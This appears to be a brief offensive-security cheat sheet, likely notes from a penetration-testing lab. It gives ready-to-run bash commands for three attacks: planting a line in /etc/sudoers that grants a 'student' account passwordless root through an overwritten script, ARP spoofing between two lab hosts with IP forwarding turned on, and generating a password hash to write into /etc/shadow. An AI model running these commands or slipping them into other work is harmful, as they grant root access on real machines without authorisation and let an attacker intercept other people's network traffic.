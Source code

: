 
## Add to sudoers

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers\n' > /usr/local/share/copy.sh
```

## ARP Spoof

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```bash
arpspoof -i eth1 -t 10.100.13.7 -r 10.100.13.36
```

## Generate a password for shawdow file 
https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow

```bash
openssl passwd -1 -salt xyz 123456
```